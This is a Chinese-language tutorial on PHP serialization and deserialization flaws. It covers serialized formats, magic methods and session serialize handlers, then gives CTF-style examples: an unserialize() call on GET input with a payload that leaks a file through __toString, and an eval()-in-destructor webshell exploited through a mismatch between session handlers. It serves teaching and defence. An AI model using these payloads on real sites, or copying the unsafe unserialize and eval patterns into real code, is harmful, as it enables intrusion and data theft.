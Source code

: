 #  PHP序列及反序列化安全漏洞   
 船山信安   2024-10-26 09:12  
  
# 1.序列化和反序列化  
  
序列化是将变量或对象转换成字符串的过程；反序列化是将字符串转换成变量或对象的过程。序列化及反序列化常见函数：serialize、unserialize、json_encode、json_decode。序列化之后的格式：array（a）a:<length>:{key,value对}，例如a:1:{i,1;j,2;}Boolean（b）double（d）integer（i）object（o）O:<class_name_length>:"<class_name>":<number_of_properties>:{<properties>}，例如O:6:"person":2:{s:4:"name";N;d:3:"age";i:19;}（person对象name的属性值为null，age的属性值为19）string（s）s:length:"value"，例如s:1:"f"null（N）</properties></number_of_properties></class_name></class_name_length></length>  
# 2.PHP中魔幻函数  
  
construct：创建对象时初始化destruction：结束时销毁对象toString：对象被当作字符串时使用sleep：序列化对象之前调用wakeup：反序列化之前调用call：调用对象不存在时使用get：调用私有属性时使用  
# 3.php_session序列化及反序列化知识  
  
PHP内置了很多处理器用于对存入$session的数据进行序列化和反序列化。有三种：php_binary（形式：键名长度的ASCII码+键名+序列化的值）、php（形式：键名+“|”+序列化的值）和php_serialize（5.5.4以上版本形式：序列化的值）。可在php.ini中对session.serialize_handler进行设置，也可在代码中对ini_set('session.serialize_handler','php')进行设置。示例：代码：  
```
<?php
ini_set('
session.serialize_handler', 'php');session_start();
$_SESSION['a'] = $_GET['a'];
var_dump($_SESSION);
?>
```  
  
当网址中a=O:4:"pass":0:{}时，php模式下形式为a|s:15:"O:4:"pass":0:{}";php_serialize模式下形式为a:1:{s:1:"a";s:15:"O:4:"pass":0:{}";}注意，要真的模拟测试，需要百度做详细的各种PHP参数配置哈。  
# 4.安全漏洞  
  
例1：将已序列化值反序列化，造成魔幻函数执行  
```
<script language="php">
class Flag{ //flag.php    
public $file;    
public function __tostring(){        
if(isset($this->file)){            
echo file_get_contents($this->file);            
echo "<br />";        
return ("good");        }    }}
$password = unserialize($_GET['password']);  
echo $password;   
</script>
```  
  
说明：当对象被当做字符串（如序列化的结果是字符串）时会调用__tostring()魔幻函数。  
  
payload：  
```
<script language="php">
class Flag{ //flag.php    
public $file;    
public function __tostring(){        
if(isset($this->file)){            
echo file_get_contents($this->file);           
echo "<br />";        
return ("good");        }    }}
$obj = new Flag();
$obj->file = "Flag.php";
echo serialize($obj);
</script>
```  
  
输出序列化字符串：O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}  
  
将此字符串放至$password变量中，执行即可获取flag.php界面的内容。  
  
例2：PHP session处理器设置不当造成安全漏洞  
```
<?php
//A webshell is wait for you
ini_set('session.serialize_handler', 'php');session_start();
class OowoO{    
public $mdzz;    
function __construct()   
{        
$this->mdzz = 'phpinfo();';    
}    
function __destruct()    
{        eval($this->mdzz);   
}
}
if(isset($_GET['phpinfo']))
{    
$m = new OowoO();
}
else
{    
highlight_string(file_get_contents('index.php'));
}?>
```  
  
已知，php.ini（通过phpinfo可看）中session.serialize_handler = php_serilize，代码中ini_set('session.serialize_handler', 'php');注意，php会以“|”为界，将之前和之后的内容分别设为键名和键值；而php_serialize恰巧对“|”不敏感。emmmmm，猜到构造方法了吧-。-可以给网页传入一个php_serialize的session，然后通过网页的php处理器解析后将“|”后的内容解析成值，执行之。  
  
来源：https://xz.aliyun.com/     感谢【  
HYWZ  
 】  
  
  
